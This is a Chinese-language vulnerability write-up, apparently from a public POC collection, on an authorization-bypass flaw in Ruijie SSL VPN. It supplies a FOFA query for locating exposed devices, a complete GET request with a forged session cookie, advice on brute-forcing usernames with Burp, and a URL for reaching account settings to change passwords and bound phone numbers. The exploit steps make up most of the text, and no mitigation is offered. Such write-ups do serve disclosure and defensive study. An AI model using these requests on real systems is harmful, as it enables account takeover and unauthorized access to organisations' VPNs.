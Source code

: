 # 锐捷 SSL VPN 越权访问漏洞

## 漏洞描述

Ruijie SSL VPN 存在越权访问漏洞，攻击者在已知用户名的情况下，可以对账号进行修改密码和绑定手机的操作。并在未授权的情况下查看服务器资源

## 漏洞影响

```
Ruijie SSL VPN
```

## FOFA

```
icon_hash="884334722" || title="Ruijie SSL VPN"
```

## 漏洞复现

访问目标 http://xxx.xxx.xxx.xxx/cgi-bin/installjava.cgi



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110919224.png)

POC请求包如下

```plain
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

其中注意的参数为

```plain
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

UserName 参数为已知用户名

在未知登录用户名的情况下 漏洞无法利用(根据请求包使用Burp进行用户名爆破)

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110920240.png)

用户名正确时会返回敏感信息

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110920291.png)

通过此方法知道用户名后可以通过漏洞修改账号参数

访问 http://xxx.xxx.xxx.xxx/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=liuw&sid=1&oper=showres

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110920639.png)

点击个人设置跳转页面即可修改账号信息

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110920944.png)

## 参考文章

https://mp.weixin.qq.com/s?__biz=MzU1NTkzMTYxOQ==&mid=2247484601&idx=1&sn=d6d6f4496243d98e688667faff137973